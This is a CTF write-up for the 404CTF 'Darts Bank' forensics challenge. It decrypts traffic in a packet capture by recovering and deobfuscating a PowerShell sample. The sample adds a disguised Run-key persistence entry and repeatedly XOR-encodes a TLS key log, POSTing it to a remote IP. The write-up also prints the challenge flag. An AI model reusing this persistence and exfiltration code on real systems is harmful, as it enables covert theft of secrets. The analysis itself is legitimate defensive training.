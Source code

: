# Darts Bank

## Challenge
> Attention : ce challenge contient du code à portée malveillante. Bien que l'auteur se soit efforcé de le rendre relativement inoffensif, il convient de prendre les mesures d'isolation adéquates s'il devait être exécuté. L'organisation décline toute responsabilité en cas de dommages à votre système.

Je me dirigeais vers l'épreuve de lancer de fléchettes quand j'ai fait une découverte horrifiante : on m'a dérobé ma fléchette porte-bonheur ! Pourtant, cette dernière était bien sécurisée grâce à ma banque à fléchettes, DartsBank, et cette dernière a toutes les protections qui s'imposent... Même le petit cadenas vert ! Je crois avoir remarqué des choses étranges sur le réseau, vous pouvez y jeter un œil ?

## Inputs
- PCAP file: [dart.pcapng](./dart.pcapng)

## HTTP encrypted traffic
We open the `PCAP` file in `Wireshark`, revealing some `http` traffic with `POST` requests to 192.168.78.89 containing `base64` encoded contents:

![wireshark_http.png](./wireshark_http.png)

We can extract that using the `Wireshark's export utility` to extract objects from the `http` traffic:

![wireshark_export.png](./wireshark_export.png)

```console
$ ll export/
-rw-r--r-- 1 thesee thesee 2,1K avril 24 16:33 'index(1).html'
-rw-r--r-- 1 thesee thesee 3,1K avril 24 16:33 'index(2).html'
-rw-r--r-- 1 thesee thesee 5,1K avril 24 16:33 'index(3).html'
-rw-r--r-- 1 thesee thesee 3,7K avril 24 16:33 'index(4).html'
-rw-r--r-- 1 thesee thesee 5,1K avril 24 16:33 'index(5).html'
-rw-r--r-- 1 thesee thesee 2,1K avril 24 16:33 'index(6).html'
-rw-r--r-- 1 thesee thesee 5,1K avril 24 16:33 'index(7).html'
-rw-r--r-- 1 thesee thesee  11K avril 24 16:33 'index(8).html'
-rw-r--r-- 1 thesee thesee 1,1K avril 24 16:33 'index(9).html'
-rw-r--r-- 1 thesee thesee  207 avril 24 16:33  index.htm
-rw-r--r-- 1 thesee thesee  42K avril 24 16:33  index.html
```

So we get those `base64` encoded contents in the `index(*).html` files, but `base64` decoding them does not buy us anything: this is encrypted somehow.

We also have a `PowerShell` script in `index.html`.

## Powershell obfuscated script
The `Powershell` script `index.html` contains some `obfuscation` and some `base64` encoded commands. Especially:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($cccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc))>$env:TEMP\run.ps1;New-ItemProperty -Path Registry::HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run -Name ChromeUpdateChecker -Value "powershell -ep Bypass -File $env:TEMP\run.ps1" -PropertyType String -Force;powershell -ep Bypass -File $env:TEMP\run.ps1;
```

Where this long variable `base64` decodes into the following, where I truncated the huge byte array from the `$aaaaaaaaaaaa` variable:
```powershell
$aaaaaaaaaaaaa=0;$aaaaaaaaaaaaaa="$env:TEMP\defender-res.txt";$aaaaaaaaaaaa=[byte[]](215,(...),120);while($true){$aaaaaaaaaaaaaaa=Get-Item -Path $aaaaaaaaaaaaaa;$aaaaaaaaaaaaaaaa=$aaaaaaaaaaaaaaa.Length;if($aaaaaaaaaaaaaaaa -gt $aaaaaaaaaaaaa){$aaa=[System.IO.File]::Open($aaaaaaaaaaaaaa,[System.IO.FileMode]::Open, [System.IO.FileAccess]::Read,[System.IO.FileShare]::ReadWrite);$aaa.Seek($aaaaaaaaaaaaa,[System.IO.SeekOrigin]::Begin)|Out-Null;$aaaaaaaaaaaaaaaaaaa=New-Object byte[] ($aaaaaaaaaaaaaaaa - $aaaaaaaaaaaaa);$aaa.read($aaaaaaaaaaaaaaaaaaa,0,$aaaaaaaaaaaaaaaa - $aaaaaaaaaaaaa)|Out-Null;for($i=0;$i -lt $aaaaaaaaaaaaaaaaaaa.count;$i++){$aaaaaaaaaaaaaaaaaaa[$i]=$aaaaaaaaaaaaaaaaaaa[$i] -bxor $aaaaaaaaaaaa[$i % $aaaaaaaaaaaa.count];}$data=[Convert]::ToBase64String($aaaaaaaaaaaaaaaaaaa);Invoke-WebRequest -Uri http://192.168.78.89/index.html -Method POST -Body $data|Out-Null;$aaa.Close()|Out-Null;}$aaaaaaaaaaaaa=$aaaaaaaaaaaaaaaa;Start-Sleep -Seconds 5;}
```

This gives the following after some `deobfuscation` (the byte array is still truncated):
```powershell
$var13=0;$var14="$env:TEMP\defender-res.txt";$var12=[byte[]](215,(...),120)
while($true)
{
    $var15=Get-Item -Path $var14;
    $var16=$var15.Length;
    if($var16 -gt $var13)
    {
        $aaa=[System.IO.File]::Open($var14,[System.IO.FileMode]::Open, [System.IO.FileAccess]::Read,[System.IO.FileShare]::ReadWrite);
	$aaa.Seek($var13,[System.IO.SeekOrigin]::Begin)|Out-Null;
	$var19=New-Object byte[] ($var16 - $var13);
	$aaa.read($var19,0,$var16 - $var13)|Out-Null;
	for($i=0;$i -lt $var19.count;$i++)
	{
	    $var19[$i]=$var19[$i] -bxor $var12[$i % $var12.count];
	}
	$data=[Convert]::ToBase64String($var19);
	Invoke-WebRequest -Uri http://192.168.78.89/index.html -Method POST -Body $data|Out-Null;
	$aaa.Close()|Out-Null;
    }
    $var13=$var16;
    Start-Sleep -Seconds 5;
}
```

We just encovered the encryption in place:
- files are `xored` with the `byte array`
- output is `base64` encoded
- result is sent as data in a `HTTP POST` request to 192.168.78.89

## Decryption
Decryption is just a matter of storing that `byte array` and applying the `xor` and `base64` decoding to the `index(*).html` payload we gathered:

```python
import sys
from base64 import b64decode
from byte_array import get_bytearray

L = get_bytearray()
size = len(L)

def xor(b1, b2):
    return bytes(a ^ b for a, b in zip(b1, b2))

filename = sys.argv[1]
with open(filename, 'rb') as f:
    data = f.read()

data = b64decode(data)

dec = b''
for i in range(len(data)):
    #print(i, L[i % size], int.to_bytes(L[i % size], 1, 'big'), data[i])
    dec += xor(int.to_bytes(data[i], 1, 'big'), int.to_bytes(L[i % size], 1, 'big'))


filename += '.dec'
with open(filename, 'wb') as f:
    f.write(dec)
```

We can automate the decryption on all files like so for instance:
```console
$ for file in $(ls export/index\(?\).html); do python3 dec.py $file; done
```

After decryption, we get `SSLKEYLOG` files, containing the `SSL session keys` to decrypt the traffic:
```console
$ cat index\(1\).html.dec
CLIENT_HANDSHAKE_TRAFFIC_SECRET 92e8f63a29e3efd3b2b90ba2e4f8fd18d3fd4ea196c01f32cb8dabf7b580f2d6 d5fd56bbfae94de7038670d87ad2471cb5f8f25751b8fdc0d3e074fc7af14255
SERVER_HANDSHAKE_TRAFFIC_SECRET 92e8f63a29e3efd3b2b90ba2e4f8fd18d3fd4ea196c01f32cb8dabf7b580f2d6 b4f7d0f5009a88ab0aaadee10e7808390fb1a95aa3a4027f4c01e2d11268cad7
CLIENT_HANDSHAKE_TRAFFIC_SECRET 196183b277a85b567677aba5fd8302996dc85c5303e24e95c6bfea3e136f284d e2c25fba320825085a7d55fe9f3495a5b1f8b86f5cac4c8ade994dcc9e0e4ae5
SERVER_HANDSHAKE_TRAFFIC_SECRET 196183b277a85b567677aba5fd8302996dc85c5303e24e95c6bfea3e136f284d b8aa942efb689a636bc4264c2b51498d3c44280bd6c322a6891484f7822eecb4
CLIENT_TRAFFIC_SECRET_0 92e8f63a29e3efd3b2b90ba2e4f8fd18d3fd4ea196c01f32cb8dabf7b580f2d6 7776b27a24e6f1fed0b33f1f2952de59d9947cfc6aff2029bb51222813a57865
SERVER_TRAFFIC_SECRET_0 92e8f63a29e3efd3b2b90ba2e4f8fd18d3fd4ea196c01f32cb8dabf7b580f2d6 e8ccf744cc00540fe43aedcabb3ea6c3978fd5e7e61d6437ea850774025f1c6a
EXPORTER_SECRET 92e8f63a29e3efd3b2b90ba2e4f8fd18d3fd4ea196c01f32cb8dabf7b580f2d6 931f4971adac8dd4b762d8193d85acdb21807b0cb117676f10e6f70d61114068
CLIENT_TRAFFIC_SECRET_0 196183b277a85b567677aba5fd8302996dc85c5303e24e95c6bfea3e136f284d c4f9d32e7c371b887063805910630934d6c43eefc5270eb7e09d61ec650996a1
SERVER_TRAFFIC_SECRET_0 196183b277a85b567677aba5fd8302996dc85c5303e24e95c6bfea3e136f284d 528ea08b976af1a0521178064de30dc900b31bdce671faf5028cf95750e9c4e8
EXPORTER_SECRET 196183b277a85b567677aba5fd8302996dc85c5303e24e95c6bfea3e136f284d 8ddc145e725ba3ad2e66c6768420207275b85e73f357093c3eee01b91bffca8b
```

## Decoding SSL traffic
In `Wireshark`, in the `TLS protocol` settings we can try these `SSLKEYLOG` files one by one in field `(Pre)-Master-Secret log filename` and look for `404CTF` in the packet details, assuming we can grab the flag at this point, and we do using the `4th SSLKEYLOG file` !

![wireshark_tls.png](./wireshark_tls.png)

![wireshark_flag.png](./wireshark_flag.png)

## Python script for decryption
Complete solution in [dec.py](./dec.py)

## Flag
> 404CTF{En_pl31n_d4ns_l3_1337_v1@_sUp3r_TLS_d3crypt0r}
